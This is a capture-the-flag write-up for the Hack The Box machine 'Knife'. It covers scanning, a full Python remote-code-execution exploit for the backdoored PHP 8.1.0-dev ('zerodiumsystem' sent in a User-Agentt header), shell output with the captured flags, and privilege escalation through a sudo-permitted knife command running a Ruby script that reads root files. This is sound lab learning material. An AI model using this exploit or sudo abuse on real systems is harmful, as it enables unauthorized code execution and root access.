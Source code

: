 # Knife

### Challenge: FullPWN

### Tools: Nmap, 

Running nmap we can see that port 80 and 22 are open. Lets run a dirb and check out the webpage while it runs.

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -A -Pn 10.129.82.115
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-08 20:55 BST
Nmap scan report for 10.129.82.115
Host is up (0.0043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.97 seconds
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ dirb http://10.129.82.115

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  8 20:57:51 2022
URL_BASE: http://10.129.82.115/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.82.115/ ----
+ http://10.129.82.115/index.php (CODE:200|SIZE:5815)                          
+ http://10.129.82.115/server-status (CODE:403|SIZE:278)                       
                                                                               
-----------------
END_TIME: Mon Aug  8 20:58:08 2022
DOWNLOADED: 4612 - FOUND: 2
```
Navigating to the webpage we can see that there is nothing interesting but running a curl command shows that its "X-Powered-By" php 8.1.0.

```console
└──╼ [★]$ curl -I 10.129.82.115
HTTP/1.1 200 OK
Date: Mon, 08 Aug 2022 20:17:49 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
A quick google search gives us an axploit we can run to get a shell on the host.

```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Now running the script gives us a shell!

```console
└──╼ [★]$ python3 php.py 
Enter the full host url:
http://10.129.82.115

Interactive shell is opened on http://10.129.82.115 
Can't acces tty; job crontol turned off.
$ pwd
/

$ whoami
james
```

I had trouble navigating with the limited shell but was able to locate the user flag.

```console
$ pwd
/

$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ ls home
james

$ ls home/james
user.txt

$ cat home/james/user.txt
a90760febfd2ef7c9091d21c9278a563
```

Now to priviledge escalate and grab the root flag. Its always smart to run sudo -l to see what the logged in user can use

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Knife is the vulnerable sudo permission that we can exploit. Coincidence!? I think not!
unfortunately with this being an unstable shell I was unable to get root priviledges with this exploit from GTFO bins so we shall use another...

```console
$ sudo knife exec -E 'exec "/bin/sh"'
No input file specified.
```
Since knife can execute ruby scripts, we will make a quick script to read the root flag with sudo permissions.

```console
$ echo "data = File.read(\"/root/root.txt\")\r\nputs data" > ~/flag.rb

$ sudo knife exec ~/flag.rb
42aba59bd6f8d5ab6d7ab1e9c83945bb
```

Voila we have both flags!

Pretty simple box. I had a little trouble after the GTFO bins didn't work on the knife command, but a little digging showed that it can run ruby scripts so then my next challenge became creating a ruby script to read the flag.
